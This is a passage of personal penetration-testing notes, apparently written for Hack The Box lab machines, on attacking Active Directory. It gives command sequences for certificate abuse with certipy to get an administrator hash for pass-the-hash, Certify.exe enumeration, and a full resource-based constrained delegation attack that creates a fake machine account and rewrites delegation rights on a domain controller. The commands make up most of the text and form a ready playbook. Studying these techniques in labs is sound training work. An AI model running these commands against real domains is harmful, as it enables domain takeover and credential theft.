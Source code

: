 ```
- retrieves the issued certificate and saves as administrator.pfx
```
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```
- should give hash for administrator for pass-the-hash (use part after the colon)
	- if nameserver error, try replacing `manager.htb` with ip of machine
- if clockskew error, run:
```
sudo ntpdate 10.129.42.194
```
- should sync time to machine, then run prior command
- make take multiple attempts


##### ESC4

##### ESC8 (Shadow Credentials)
Find user with WriteOwner & WriteDACL permissions (in Cert Publishers group for example)
- upload Certify.exe to target machine as any user and run:
```
./Certify.exe find /domain:sequel.htb
```

RBCD (Resource Based Constrained Delegation) Attack ^062636
- Requirements:
	- `SeMachineAccountPrivilege` shows enabled
		- `whoami /priv` to check current user
	- `Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota`
		- shows quota, must be more than 0, default is 10
		- `. .\PowerView.ps1` required for commands
	- must be 2012+ DC
		- `Get-DomainController | select name,osversion | fl`
	- `msds-allowedtoactonbehalfofotheridentity` must be empty
		- `Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl`
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```
- create fake computer
- requires `. .\Powermad.ps1`
```
$fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
```
- save SID as variable
	- check it saved with `$fakesid` command
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```
- creating ACL step 1: command creates raw security descriptor $SD with specific access control entries
```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```
- creating ACL step 2: creates new byte array $SDBytes with length equal to binary length of security descriptor
```
$SD.GetBinaryForm($SDBytes, 0)
```
- creating ACL step 3: converts $SD into binary form and stores in the byte array
```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
- creating ACL step 4: applies security descriptor to the `msds-allowedtoactonbehalfofotheridentity` attribute of the target computer object
```